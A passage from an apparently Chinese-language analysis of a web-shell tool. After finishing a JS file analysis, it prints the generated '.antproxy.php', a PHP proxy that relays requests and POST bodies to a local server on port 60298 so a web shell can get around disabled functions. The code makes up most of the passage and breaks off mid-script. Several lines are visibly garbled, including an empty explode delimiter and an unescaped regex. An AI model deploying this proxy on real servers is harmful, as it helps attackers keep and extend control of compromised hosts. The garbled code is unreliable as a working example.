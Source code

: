   
js文件分析到此结束  
  
  
最后来看一下生成的  
.antproxy.php内容如下  
  
```
<?php
function get_client_header(){
    $headers=array();
    foreach($_SERVER as $k=>$v){
        if(strpos($k,'HTTP_')===0){
            $k=strtolower(preg_replace('/^HTTP/', '', $k));
            $k=preg_replace_callback('/_\w/','header_callback',$k);
            $k=preg_replace('/^_/','',$k);
            $k=str_replace('_','-',$k);
            if($k=='Host') continue;
            $headers[]="$k:$v";
        }
    }
    return $headers;
}
function header_callback($str){
    return strtoupper($str[0]);
}
function parseHeader($sResponse){
    list($headerstr,$sResponse)=explode("",$sResponse, 2);
    $ret=array($headerstr,$sResponse);
    if(preg_match('/^HTTP/1.1 d{3}/', $sResponse)){
        $ret=parseHeader($sResponse);
    }
    return $ret;
}

set_time_limit(120);
$headers=get_client_header();
$host = "127.0.0.1";
$port = 60298;
$errno = '';
$errstr = '';
$timeout = 30;
$url = "/1.php";

if (!empty($_SERVER['QUERY_STRING'])){
    $url .= "?".$_SERVER['QUERY_STRING'];
};

$fp = fsockopen($host, $port, $errno, $errstr, $timeout);
if(!$fp){
    return false;
}

$method = "GET";
$post_data = "";
if($_SERVER['REQUEST_METHOD']=='POST') {
    $method = "POST";
    $post_data = file_get_contents('php://input');
}

$out = $method." ".$url." HTTP/1.1\r\n";
$out .= "Host: ".$host.":".$port."\r\n";
if (!empty($_SERVER['CONTENT_TYPE'])) {
    $out .= "Content-Type: ".$_SERVER['CONTENT_TYPE']."\r\n";
}
$out .= "Content-length:".strlen($post_data)."\r\n";
```
